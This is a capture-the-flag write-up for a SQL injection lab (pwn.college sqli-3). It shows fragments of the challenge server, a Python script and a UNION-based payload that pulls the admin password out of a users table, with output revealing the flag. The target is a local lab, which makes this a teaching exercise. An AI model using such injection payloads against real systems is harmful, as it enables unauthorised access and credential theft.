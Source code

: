 ```py title="/challenge/server" showLineNumbers

    return f"""
        <html><body>Welcome to the user query service!
        <form>Query:<input type=text name=query value='{query}'><input type=submit value=Submit></form>
        <hr>
        <b>Query:</b> <pre>{ sql }</pre><br>
        <b>Results:</b><pre>{results}</pre>
        </body></html>
        """


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

```py title="~/script.py" showLineNumbers
import requests

url = "http://challenge.localhost:80"
params = {
    "query": 'admin" UNION SELECT password FROM users WHERE username="admin"-- -'
}
response = requests.get(url, params = params)
print(response.text)
```

This time the flag is stored in the `password` field of the `admin` user. However, the `password` is never printed in the original query:

```sql
SELECT username FROM users WHERE username LIKE "{query}"
```

### SQL injection

#### UNION attack

Let's try the following parameters:

```
query: admin" UNION SELECT password FROM users WHERE username="admin"-- - 
```

The resultant SQL query will be:

```sql
SELECT username FROM users WHERE username LIKE "admin" UNION SELECT password FROM users WHERE username="admin"-- -"
```

```
hacker@web-security~sqli-3:/$ python ~/script.py 

        <html><body>Welcome to the user query service!
        <form>Query:<input type=text name=query value='admin" UNION SELECT password FROM users WHERE username="admin"-- -'><input type=submit value=Submit></form>
        <hr>
        <b>Query:</b> <pre>SELECT username FROM users WHERE username LIKE "admin" UNION SELECT password FROM users WHERE username="admin"-- -"</pre><br>
        <b>Results:</b><pre>admin
pwn.college{wz14oEOmcepM7OVPxb4zm3bCC2L.dFTOzMDL4ITM0EzW}
</pre>
        </body></html>
```
